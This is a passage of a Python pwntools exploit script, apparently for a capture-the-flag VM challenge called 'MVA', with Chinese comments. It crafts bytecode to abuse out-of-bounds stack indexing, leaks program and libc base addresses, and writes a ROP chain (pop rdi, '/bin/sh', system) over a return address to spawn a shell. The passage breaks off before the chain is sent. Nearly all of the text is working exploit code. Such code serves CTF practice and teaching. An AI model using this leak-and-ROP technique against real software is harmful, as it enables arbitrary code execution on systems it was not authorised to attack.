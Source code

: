 ```python
code += pack(0xf, 0, 0, 0) # printf stack[idx]

# 然后下面是ret to 0x12AE, 再次执行
# 之前泄露的程序地址加0x4即0x2AE
code += pack(1,0,0,0x4)   # reg[0] = (op2:op1)
code += pack(2, 3, 3, 0)      # reg[3] = reg[3] + reg[0]

# 设置好idx=0x800000000000010c，让stack指向ret
code += pack(1,0,0x1,0xc)   # reg[0] = 0x10c(op2:op1)
code += pack(0xe, 0, -10, 0)  # reg[-10]<=>(idx) = reg[0]
code += pack(1,0,0x80,0)   # reg[0] = 0x10f(op2:op1)
code += pack(0xe, 0, -7, 0)  # reg[-7]<=>(idx[3]) = reg[0]
# low
code += pack(0xe, 3, 0, 0)  # reg[0] = reg[3]
code += pack(9, 0, 0, 0)      # stack[idx] = reg[0]
# mid
code += pack(1,0,0x1,0xc+1)   # reg[0] = 0x10c+1(op2:op1)
code += pack(0xe, 0, -10, 0)  # reg[-10]<=>(idx) = reg[0]
code += pack(0xe, 4, 0, 0)  # reg[0] = reg[4]
code += pack(9, 0, 0, 0)      # stack[idx] = reg[0]
# high
code += pack(1,0,0x1,0xc+2)   # reg[0] = 0x10c+2(op2:op1)
code += pack(0xe, 0, -10, 0)  # reg[-10]<=>(idx) = reg[0]
code += pack(0xe, 5, 0, 0)  # reg[0] = reg[5]
code += pack(9, 0, 0, 0)      # stack[idx] = reg[0]

code = code.ljust(0x100, b"\x00")
p.sendlineafter(b"[+] Welcome to MVA, input your code now :\n", code)
p.recvuntil(b"[+] MVA is starting ...\n")

elf_base = (int(p.recvline(), 10) << 32) + (int(p.recvline(), 10) << 16) + int(p.recvline(), 10) - 0x12aa
libc_base = (int(p.recvline(), 10) << 32) + (int(p.recvline(), 10) << 16) + int(p.recvline(), 10) - 0x240b3
success(hex(elf_base))
success(hex(libc_base))
pop_rdi_ret = libc_base + 0x0000000000023b72
bin_sh = libc_base + 0x1b45bd
system_addr = libc_base + 0x522c0

# 设置好idx，让stack指向ret
code2 =  b"a"*175
code2 += pack(1,0,0x1,0xc)   # reg[0] = 0x10c(op2:op1)
code2 += pack(0xe, 0, -10, 0)  # reg[-10]<=>(idx) = reg[0]
code2 += pack(1,0,0x80,0)   # reg[0] = 0x10f(op2:op1)
code2 += pack(0xe, 0, -7, 0)  # reg[-7]<=>(idx[3]) = reg[0]

# 顺序写入pop_rdi+binsh+system
for i in range(4):
  d1, d2 = pop_rdi_ret&0xff, (pop_rdi_ret>>8)&0xff
  code2 += pack(9, 1, d2, d1)   # stack[idx] = op2:op1
  pop_rdi_ret = pop_rdi_ret >> 16

for i in range(4):
  d1, d2 = bin_sh&0xff, (bin_sh>>8)&0xff
  code2 += pack(9, 1, d2, d1)   # stack[idx] = op2:op1
  bin_sh = bin_sh >> 16

for i in range(4):
  d1, d2 = system_addr&0xff, (system_addr>>8)&0xff
  code2 += pack(9, 1, d2, d1)   # stack[idx] = op2:op1
  system_addr = system_addr >> 16

```